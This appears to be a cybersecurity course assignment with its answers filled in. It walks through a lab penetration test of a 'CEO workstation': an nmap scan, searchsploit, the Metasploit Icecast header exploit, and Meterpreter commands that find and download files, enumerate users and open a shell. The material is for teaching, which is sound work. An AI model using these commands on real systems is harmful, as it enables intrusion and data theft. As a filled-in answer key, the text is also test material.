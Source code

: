 #### Deliverable
Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -sV -O 192.168.0.20`

      ![](Images/nmap_scan_target_icecast.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

     ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`

     ![](Images/start_metasploit.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`

     ![](Images/search_icecast.png)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0` or `use exploit/windows/http/icecast_header`

     ![](Images/use_icecast_module.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`

     ![](Images/set_rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`

     ![](Images/exploit_DVW10.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`

     ![](Images/search_secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`

      ![](Images/search_recipe.PNG)
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download 'c:\Users\IEUsers\Documents\Drinks.recipe.txt'`

      ![](Images/download_drinks_recipe.png)
      
      ![](Images/exfiltrate_files.png)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

   > Answer: `run/post/multi/recon/local_exploit_suggester`

   ![](Images/exploit_suggester.png)

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

   > Answer: `run post/windows/gather/enum_logged_on_users`

   ![](Images/enum_logged_on_users.png)
 
     
B. Open a Meterpreter shell. 
 
   > Answer: `shell` & `systeminfo`

    ![](Images/DVW10_systeminfo.png)


 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`

   ![](Images/target_comp_info.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.